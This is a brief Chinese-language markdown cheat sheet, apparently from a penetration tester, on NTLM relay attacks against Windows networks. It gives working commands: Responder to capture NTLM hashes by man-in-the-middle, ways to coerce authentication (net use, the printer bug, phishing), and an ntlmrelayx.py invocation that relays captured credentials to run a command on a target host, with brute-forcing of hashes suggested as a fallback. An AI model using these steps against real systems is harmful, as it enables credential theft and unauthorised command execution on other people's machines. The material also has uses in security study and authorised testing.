

# 重放攻击
NTLM（NT LAN Manager）重放攻击是一种利用 Windows 身份验证协议的中间人攻击



步骤:
```
1.捕获NTLM Hash
2.重放NTLM Hash
3.爆破NTLM Hash

```

NTLM监听:
```
​Responder​	中间人监听	responder -I eth0 -A
触发方式:
1.主动:net use或利用打印机漏洞强制触发
2.被动:如钓鱼

```
NTLM重放:
```
ntlmrelayx​	凭证重放	ntlmrelayx.py -t 192.168.1.10 -c whoami -smb2support

 
kai启动监听得到的NTML重放给1.10,(也可以是另一台机器),由于账号密码一致所以能执行whoami命令

原理:window先用本机的账号密码去认证,不成功再输入
因此需要目标进行降权或提权


若重放失败,可以尝试暴力破解:后续渗透

```